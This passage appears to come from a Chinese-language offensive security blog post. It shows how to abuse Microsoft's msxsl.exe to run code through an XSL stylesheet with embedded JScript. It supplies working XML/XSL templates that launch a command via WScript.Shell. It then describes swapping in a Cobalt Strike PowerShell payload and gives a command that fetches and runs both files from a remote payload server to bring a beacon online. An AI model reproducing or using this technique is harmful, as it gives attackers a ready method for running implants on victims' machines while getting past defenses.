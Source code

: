 执行该工具需要用到 2 个文件，分别为 XML 及 XSL 文件，其命令如下：

```
msxsl.exe test.xml exec.xsl
```

利用手法：  
test.xml 的代码模板:

```
<?xml version="1.0"?>     <?xml-stylesheet type="text/xml" href="C:\Users\Public\Downloads\payload.xsl" ?>                <customers>                            <customer>                                         <name>Microsoft</name>                                  </customer>                             </customers>
```

exec.xsl 代码模板：

```
<?xml version='1.0'?><xsl:stylesheet version="1.0"  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"  xmlns:msxsl="urn:schemas-microsoft-com:xslt"  xmlns:user="http://mycompany.com/mynamespace"><msxsl:script language="JScript" implements-prefix="user">      function xml(nodelist) {                 var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");   return nodelist.nextNode().xml;              }</msxsl:script><xsl:template match="/">   <xsl:value-of select="user:xml(.)"/></xsl:template></xsl:stylesheet>
```

网络上的模板都是存在一些小问题的，使用我上面的就行（逼我去学习了一下 xml）当然也可以采用 xml 进行更多操作

本地执行看看

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicBLnfzFYRDsCAAWDQVjTEY1eicPiazsqw144JHKpFrPCicUibnrw13vfCtg/640?wx_fmt=png)

成功弹出 calc（计算器）

采用 cobalt strike 利用

生成一个 powrshell 的木马

替换到这里去

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglic1Bx5af7Lric8w3jyibPer4t9xwre9PfcpV7DVSO0E82k0h0MG2WpU3UQ/640?wx_fmt=png)

然后加载执行上线

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicOJMEFZ3o54dSBpouZiaI8OfIGtVX85ia5u2TcUibdibLHyl5LDjW4I0ohw/640?wx_fmt=png)

远程加载执行上线

```
C:\Users\（123223Li）>C:\Users\Public\Downloads\msxsl.exe http://192.168.50.146:80/download/test.xml http://192.168.50.146:80/download/exec.xsl
```

把 test.xml 和 exec.xsl 放在我们的 playload 下发服务器中

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicqY6v4fN6Ax1GAzBTqWJg6CJJYOuibacBqxx2G0f8F0J8tWTO8ftNwCA/640?wx_fmt=png)

成功上线 cobalt strike。
